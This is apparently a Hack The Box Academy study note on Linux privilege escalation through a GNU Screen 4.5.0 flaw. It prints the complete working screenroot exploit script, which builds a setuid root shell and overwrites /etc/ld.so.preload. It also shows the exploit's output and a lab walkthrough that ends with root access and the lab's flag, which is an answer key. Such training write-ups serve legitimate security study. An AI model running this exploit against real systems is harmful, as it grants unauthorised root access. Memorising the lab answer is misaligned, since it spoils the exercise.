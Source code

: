 ```yaml
---
description: >-
  Many services may be found, which have flaws that can be leveraged to escalate
  privileges.
---
```


# Vulnerable Services

## Screen Example

The version 4.5.0 suffers from privilege escalation vulnerability due to lack of permissions check when opening a log file.

**Screen Version Identification**

```shell-session
screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```

This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access.

**Privilege Escalation - Screen\_Exploit.sh**

```shell-session
./screen_exploit.sh 

~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-mrb3n.

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(mrb3n)
```

The below script can be used to perform this privilege escalation attack:

**Screen\_Exploit\_POC.sh**

Code: bash

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

## Assessment

Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen\_exploit directory.

Academy\_LLPE!

<figure><img src="../../../.gitbook/assets/image (8) (3).png" alt=""><figcaption></figcaption></figure>

```
htb-student@NIX02:~$ vim exploit.sh
htb-student@NIX02:~$ chomod +x exploit.sh 
htb-student@NIX02:~$ chmod +x exploit.sh 
htb-student@NIX02:~$ ./exploit.sh 
./exploit.sh: line 1: creenroot.sh: command not found
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-htb-student.

# id
uid=0(root) gid=0(root) groups=0(root),1008(htb-student)
# bash          
root@NIX02:/etc# cat /root/screen_exploit/flag.txt 
91927dad55ffd22825660da88f2f92e0
root@NIX02:/etc# 

```

```
91927dad55ffd22825660da88f2f92e0
```
